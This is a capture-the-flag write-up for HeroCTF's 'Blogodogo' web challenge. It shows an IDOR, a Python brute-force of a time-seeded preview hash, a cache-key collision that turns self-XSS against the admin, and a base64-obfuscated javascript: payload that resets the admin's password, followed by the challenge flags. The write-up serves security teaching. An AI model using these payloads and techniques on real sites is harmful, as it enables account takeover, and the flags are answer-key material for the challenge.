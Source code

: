 # Blogodogo

### Category

Web

### Description

Try to see the content of the secret note of the administator user.

You can deploy an instance on : **https://deploy.heroctf.fr**<br>

Format : **Hero{flag}**<br>
Author : **xanhacks**

### Files

- [blog.zip](blog.zip)

### Write Up

#### Step 1

1. IDOR to find admin user
2. Guess PREVIEW_HASH based on time
3. Access to a referral code to register your account

Find admin user using IDOR: http://dyn-01.heroctf.fr:13279/author/17

Then, you can list the admin's posts and find a secret post:

```
Secret blog post (draft)
Secret post!!

Posted by on 2023-05-13 02:53
```

You can't read it because its a draft, however you can abuse the preview function to see a draft (private) post. To do that, you need to have the correct `preview_hash`.

Example:

=> `http://dyn-01.heroctf.fr:13279/post/preview/<preview_hash>`

The `preview_hash` is generated base on the current time:

```python
def generate_hash(timestamp=None):
    """Generate hash for post preview."""
    if timestamp:
        seed(timestamp)
    else:
        seed(int(datetime.now().timestamp()))

    return randbytes(32).hex()
```

As you have the time of the creation of the post (`2023-05-13 02:53`), you can regenerate the preview hash. The only things to do is to bruteforce the seconds. You can make a little script to do that:

```python
dt = datetime(year=2023, month=5,
        day=13, hour=2, minute=53, second=0)

timestamp = int(dt.timestamp()) + 2 * 3600 # UTC+2 !
for ts in range(timestamp, timestamp + 60):
    preview_hash = generate_hash(timestamp=ts)
    resp = requests.get(HOST + "/post/preview/" + preview_hash)
    if "Report a post" in resp.text:
        print(preview_hash)
        print(resp.text)
```

Then, you successfully recover the post:

- http://dyn-01.heroctf.fr:13279/post/preview/20030b5d29001f7856c0e7e034e00b8b715d24237f67cf2ea6ec34faee3bb08b

```
Well played ! You can now register users !
Here is the referral code: 83d99a0ac225079db31b44a2e58b19f0.
Hero{pr3333vi333wwwws_5973791}
```

#### Step 2

1. Injection javascript: XSS in your profile
2. Make sure your profile is in the cache using the same username of the admin
3. ATO using password reset on admin

On our profile page, you have the following javascript snippet:

```html
<script>
    addEventListener('DOMContentLoaded', (event) => {
        let hash = window.location.hash;
        if (hash !== '') {
            let button = document.getElementById(hash.slice(1));
            button.click();
        }
    });
</script>
```

You can set the custom URL in our profile to `javascript:alert()`, then use the snippet above to auto-click on the link on the page load.

- http://dyn-01.heroctf.fr:13279/profile#author-website -> Will trigger the alert by clicking on the link.

However, this is only a self-XSS because it affects the `/profile`.

But you can abuse the cache service to inject your self-XSS into another account.

```python
key_name_url = "profile_" + current_user.username.lower() + "_url"
key_name_username = "profile_" + current_user.username.lower() + "_username" 

cache_url, cache_username = redis_client.get(key_name_url), redis_client.get(key_name_username)
if not cache_url or not cache_username:
    redis_client.set(key_name_username, current_user.username)
```

The username is lowered for the cache key, so `admin`, `AdMiN` and `ADMIN` will shares the same cache. So, you can create an account named `ADMIN` a inject yourself. The profile will be reflected into the `admin` account.

The final goal is to take over the admin account but we cannot exfiltrate cookies because it's HTTPOnly. However there is a vulnerability on the reset password feature. The old password is not verified, so you can change the password of the vicitim (admin).

XSS:

```js
document.getElementById("username").value = "admin";
document.getElementById("new_password").value = "password";
document.getElementById("new_password_confirm").value = "password";
document.getElementById("submit").click()

// equals to:

javascript:eval(atob(`ZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoInVzZXJuYW1lIikudmFsdWUgPSAiYWRtaW4iOwpkb2N1bWVudC5nZXRFbGVtZW50QnlJZCgibmV3X3Bhc3N3b3JkIikudmFsdWUgPSAicGFzc3dvcmQiOwpkb2N1bWVudC5nZXRFbGVtZW50QnlJZCgibmV3X3Bhc3N3b3JkX2NvbmZpcm0iKS52YWx1ZSA9ICJwYXNzd29yZCI7CmRvY3VtZW50LmdldEVsZW1lbnRCeUlkKCJzdWJtaXQiKS5jbGljaygp`))
```

Send the following link to the bot: `http://localhost:5000/profile#author-website`

Login in to the admin account using the new password `admin:password`.

### Flag

- Hero{pr3333vi333wwwws_5973791}
- Hero{very_n1ce_move_into_c4che}

